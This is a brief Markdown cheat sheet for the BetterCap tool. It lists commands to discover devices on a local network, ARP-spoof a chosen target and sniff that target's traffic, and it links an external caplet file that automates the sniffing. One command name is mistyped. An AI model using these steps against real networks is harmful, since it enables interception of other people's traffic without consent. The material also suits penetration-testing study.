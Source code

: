 ```yaml
---
title: BetterCap
---
```


````bash
sudo apt install bettercap
# Start Bettercap on Interface
bettercap -iface <interface> 
# View all Modules
help 
help <module-name>
````

#### View Devices on Network

````bash
# Discover devices connected to Network
net.probe on 
net.show
````

#### ARP Spoofing

````bash
net.probe on
help arp.spoof
set arp.spoof.fullduplex true
````

If the router has protection against ARP spoofing then full duplex mode will not work. In that case leave the value as false. But then we cannot perform all attacks as the router will directly send the response to the target

````bash
set rp.spoof.targets <target-ip>
arp.spoof on
````

#### Sniff Data on Target Device

Enable net.probe & arp.spoof

````bash
net.sniff on
````

Instead of typing the commands again and again we can create an .cap file with all the commands that need to be executed

Sniff Data Cap File   
<https://drive.google.com/open?id=1Man5IhMekLHHNEw3rwGxkn9kpQBZhdGt>

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
````